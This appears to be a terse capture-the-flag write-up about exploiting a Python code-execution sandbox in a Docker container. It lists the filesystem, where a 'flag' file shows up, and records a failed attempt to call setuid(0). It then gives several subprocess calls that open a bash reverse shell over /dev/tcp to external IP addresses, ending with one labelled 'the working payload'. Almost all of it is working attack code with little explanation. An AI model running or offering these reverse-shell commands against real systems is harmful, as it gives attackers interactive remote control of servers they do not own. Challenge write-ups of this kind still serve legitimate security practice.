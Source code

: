## remedy check
```
import os

#print all entries in current directory
print (os.listdir())
- does give us all dirs
```
## ..
```
import os

#print all entries in current directory
print (os.listdir('../'))
 ['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', '.dockerenv', 'flag', 'app', 'entrypoint.sh', 'uwsgi-nginx-entrypoint.sh', 'start.sh', 'install-nginx-debian.sh']
```
```
import subprocess
import os
os.setuid(0)
os.setgid(0)
result = subprocess.run(["id"], shell=True, capture_output=True, text=True)

print(result.stdout)
err: [Errno 1] Operation not permitted
```

```
import subprocess
import os
import socket,os,pty

result = subprocess.run(["bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

print(result.stdout)
```
got reverse shell
```
result = subprocess.run(["exec bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

result = subprocess.run(["bash -c 'exec bash -i &> /dev/tcp/3.6.30.85/16197 <&1'"], shell=True, capture_output=True, text=True)


result = subprocess.run(["bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

```
## the working payload
result = subprocess.run(["bash -c 'exec bash -i &> /dev/tcp/3.6.115.182/12044 <&1'"], shell=True, capture_output=True, text=True)
